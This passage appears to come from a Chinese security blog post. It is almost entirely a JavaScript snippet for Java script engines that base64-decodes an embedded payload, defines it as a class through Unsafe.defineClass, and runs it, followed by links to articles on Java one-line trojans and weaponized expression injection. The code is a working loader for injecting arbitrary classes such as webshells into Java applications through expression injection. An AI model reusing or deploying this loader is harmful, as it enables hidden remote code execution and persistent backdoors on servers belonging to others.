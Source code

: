 ```
            clz = unsafe.defineClass(
                null,
                bytes,
                0,
                bytes.length,
                classLoader,
                protectionDomain
            );
        }
    } catch (error) {
        error.printStackTrace();
    } finally {
        return clz;
    }
}

function base64DecodeToByte(str) {
    var bt;
    try {
        bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
    } catch (e) {
        bt = java.lang.Class.forName("java.util.Base64").newInstance().getDecoder().decode(str);
    }
    return bt;
}
clz = defineClass(base64DecodeToByte(code));
clz.newInstance();

```



## 相关文章

[一种新型Java一句话木马的实现](https://yzddmr6.com/posts/%E4%B8%80%E7%A7%8D%E6%96%B0%E5%9E%8BJava%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%9A%84%E5%AE%9E%E7%8E%B0/)

[Java表达式注入的武器化利用](https://yzddmr6.com/posts/java-expression-exploit/)

2023KCon 《Java表达式攻防下的黑魔法》
